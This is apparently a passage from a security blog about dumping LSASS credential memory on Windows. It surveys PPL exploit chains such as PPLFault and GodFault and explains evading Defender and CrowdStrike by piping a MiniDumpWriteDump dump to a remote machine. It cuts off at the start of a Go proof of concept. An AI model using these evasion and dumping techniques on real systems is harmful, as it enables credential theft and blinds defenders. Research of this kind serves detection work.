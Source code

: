 

Microsoft has demonstrated a willingness to revoke signatures for drivers, particularly if they are employed in public projects aimed at dumping LSASS. Consequently, if an attacker seeks the power of a Kernel driver but cannot load one, they may resort to a chain of userland exploits against PPL (Protected Process Light) to execute LSASS memory dumping.

Gabriel Landau's BlackHat talk [https://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf](https://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf) sheds light on a history of userland bugs against PPL that Microsoft only patched after turn-key solutions emerged on GitHub. This includes Landau's own tool, PPLFault, which exploits a TOCTOU (Time-Of-Check Time-Of-Use) bug in Windows Code Integrity to achieve arbitrary code execution as WinTcp-Light, then performing a memory dump for the LSASS process.

Landau took this tool a step further with GodFault [https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need](https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need)., integrating the userland TOCTOU exploit with an unpatched Windows exploit in `win32k!NtUserHardErrorControlCall`. This allowed Landau to decrement `KTHREAD.PreviousMode` from `UserMode (1)` to `KernelMode (0)` on the migrated CSRSS handle, creating an exploit chain of admin -> PPL -> kernel. This work was also integrated into EDRSandblast, eliminating the need for a vulnerable driver, thereby making it easier for attackers to blind EDR once again.

Microsoft eventually patched the TOCTOU bug after 510 days. In summary, attackers will exploit unpatched vulnerabilities to perform LSASS dumping and attempt to chain exploit primitives to gain write access in the kernel.



Now that we've discussed utilizing Mimikatz, vulnerable kernel drivers, and userland exploits for LSASS dumping, let's delve into one of the latest techniques: using MiniDumpWriteDump. Recently, I came across a YouTube video demonstrating this technique, which was flagged by both Defender and Crowdstrike Falcon [https://www.youtube.com/watch?v=3nxjPkxGDWo&t=12s](https://www.youtube.com/watch?v=3nxjPkxGDWo&t=12s). Interestingly, neither Defender nor Falcon actually detects the act of performing the LSASS dump; instead, they detect the writing of LSASS output to disk, which triggers an alert after a few seconds. This detection isn't contingent on the file extension or content obfuscation.

This observation led me to theorize that tools like PPLBlade worked because they offered an option to XOR encrypt the dump before saving it to disk or transferring it remotely. To test this theory, I decided to create a Go binary capable of remotely dumping LSASS. While this code is merely a proof of concept and not in a productized form, it demonstrates that bypassing Windows Defender doesn't necessarily require advanced EDR bypass techniques.

For my test implementation, I used the code from this GitHub repository as a baseline:[https://github.com/calebsargent/GoProcDump/tree/main](https://github.com/calebsargent/GoProcDump/tree/main). In my implementation, I utilized a similar approach as the final code in the Medium blog mentioned earlier to obtain the process ID for LSASS, leveraging CreateToolhelp32Snapshot. Additionally, I created an anonymous pipe to transmit the dump content to a remote machine, ensuring it never touches disk. Below is the provided code:


```golang 
package main

import (
	"fmt"
	"log"
	"net"
	"os"
	"syscall"
	"unsafe"
	"io"
)

const (
	TH32CS_SNAPPROCESS = 0x00000002 // Snapshot of all processes
	PROCESS_ALL_ACCESS = 0x1F0FFF
)

var (
```